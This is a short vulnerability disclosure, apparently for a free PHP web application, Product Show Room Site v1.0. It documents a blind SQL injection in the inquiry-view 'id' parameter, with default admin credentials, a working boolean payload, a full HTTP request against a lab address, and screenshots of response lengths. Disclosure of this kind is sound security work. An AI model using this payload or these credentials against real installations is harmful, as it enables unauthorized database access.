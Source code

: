 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/?page=inquiries/view_inquiry&id=

Vulnerability location: /psrs/admin/?page=inquiries/view_inquiry&id=, id

Current database name: hsrs_db ,length is 7

[+] Payload: /psrs/admin/?page=inquiries/view_inquiry&id=4%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/?page=inquiries/view_inquiry&id=4%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 28396
![image](https://user-images.githubusercontent.com/54017627/171830800-dd9eb710-c542-4b1c-92a1-99d227548a33.png)

![image](https://user-images.githubusercontent.com/54017627/171830864-5471ccab-cb64-4a1b-9a35-2022c87a26da.png)

When length (database ()) = 7, Content-Length: 28475
![image](https://user-images.githubusercontent.com/54017627/171830760-5a622ffc-6fb7-47ea-b2b3-1cbd4fad8d5e.png)

![image](https://user-images.githubusercontent.com/54017627/171830834-e1bd7eb6-babd-4957-a33b-515404293935.png)
